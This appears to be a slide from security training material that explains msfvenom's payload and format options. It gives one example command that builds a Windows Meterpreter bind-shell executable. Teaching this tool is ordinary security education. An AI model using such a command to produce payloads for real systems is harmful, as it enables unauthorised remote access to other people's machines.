

# msfvenom
msfvenom –p –f
–p : payload to use
–f : format of the payload (tons, raw or exe most used)

Ex: msfvenom -p windows/meterpreter/bind_tcp -f exe -o output.exe

Helpful reference guide: http://netsec.ws/?p=331